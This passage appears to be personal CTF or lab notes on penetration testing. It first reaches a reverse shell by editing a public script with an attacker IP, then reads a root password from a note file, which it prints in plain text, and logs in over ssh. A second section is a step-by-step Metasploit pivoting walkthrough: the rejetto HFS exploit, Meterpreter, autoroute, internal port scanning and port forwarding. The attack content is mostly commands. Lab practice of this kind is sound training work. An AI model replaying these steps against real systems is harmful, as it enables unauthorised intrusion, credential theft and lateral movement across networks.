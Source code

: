     enter the script from [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
    
    change cmd = “/bin/sh”
    
    put your ip in string host
    
    Now run
    
    Got reverse shell in netcat listerner
    
    id
    
    ls -la
    
    cd /opt
    
    ls -la
    
    cat note.txt
    
    Got root credentials root:tr0ub13guM!@#123
    
    Now open the new terminal and login via ssh
    
    $ `ssh root@10.10.10.10`
    
    password: tr0ub13guM!@#123
    
    Got root user
    
    root@internal$ `la -la`
    
    root@internal$ `cat root.txt`
    
    Got root flag !
    
- Pivoting
    
    - `service postgresql start && msfconsole`
    - `workspace -a Pivoting`
    - `db_nmap -sV -p- -O <Victim1IP>`
    - `services`
    - `search rejetto`
    - `use exploit/windows/http/rejetto_hfs_exec`
    - `show options`
    - `set rhosts <Victim1IP>`
    - `run`
    - Got Meterpreter session
    - `sysinfo`
    - `getuid`
    - `ipconfig`
    - `run autoroute -s <Victim2IP/24>`
    - run this in background
    - `background`
    - rename the session 1 meterpreter
    - `sessions -n victim1 -i 1`
    - `sessions`
    - Now portscan
    - `search portscan`
    - `use auxiliary/scanner/portscan/tcp`
    - `show options`
    - `set rhosts Victim2iP`
    - `exploit`
    - Port 80 open port found on victim2
    - Now go to session in metereter
    - `sessions 1`
    - `portfwd add -l 1234 -p 80 -r <Victim2IP>`
    - Now again put this session in background
    - `background`
    - `db_nmap -sV -sS -p 1234 localhost`
    - `search badblue`